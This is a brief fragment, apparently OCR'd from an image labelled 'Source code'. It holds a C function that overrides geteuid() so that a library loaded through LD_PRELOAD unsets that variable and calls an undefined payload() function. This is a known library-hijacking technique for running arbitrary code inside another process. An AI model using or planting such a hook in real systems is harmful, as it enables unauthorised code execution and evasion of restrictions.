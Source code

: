 ```
int geteuid() {
	if (getenv("LD_PRELOAD") == NULL) {
		return 0;
	}
	unsetenv("LD_PRELOAD");
	payload();
}
```